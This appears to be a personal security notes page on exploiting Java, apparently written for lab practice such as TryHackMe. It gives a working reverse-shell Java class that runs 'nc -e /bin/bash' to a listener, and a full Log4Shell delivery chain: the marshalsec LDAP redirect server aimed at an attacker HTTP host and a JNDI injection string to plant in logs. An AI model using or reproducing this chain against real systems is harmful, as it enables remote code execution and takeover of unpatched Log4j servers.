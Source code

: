 # Exploiting Java

author:: Nathan Acks  
date:: 2022-01-02

## Reverse Shell

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of netcat that supports the `-e` switch) is:

```java
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Where 1.2.3.4 is the IP you're catching the reverse shell at and 999 is the port of the listener. This can be compiled with:

```bash
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

* [Using “netcat”](netcat.md)

## Delivery with Log4Shell

Delivery through a vulnerable version of Log4j is done through a four step process: Malicious string → LDAP lookup → load Java code over HTTP → reverse shell.

A simple Java LDAP server that will handle redirects is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```bash
mvn clean package -DskipTests
```

And run with:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
         marshalsec.jndi.LDAPRefServer \
         "http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

Once that's done you'll just need to fire up a quick web server to serve the exploit code above and a netcat listener and then find a way to deliver the malicious string (`${jndi:ldap://1.2.3.4:1389/Exploit}`, where 1.2.3.4 is the `$ATTACKER_IP` above) somewhere it will be logged.

Note that a number of other protocols are supported besides LDAP (the marchalsec server supports a few).

## References

* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)
* [Using “netcat”](netcat.md)
* [Quick-n-Dirty Python Web Server](quick-n-dirty-python-web-server.md)
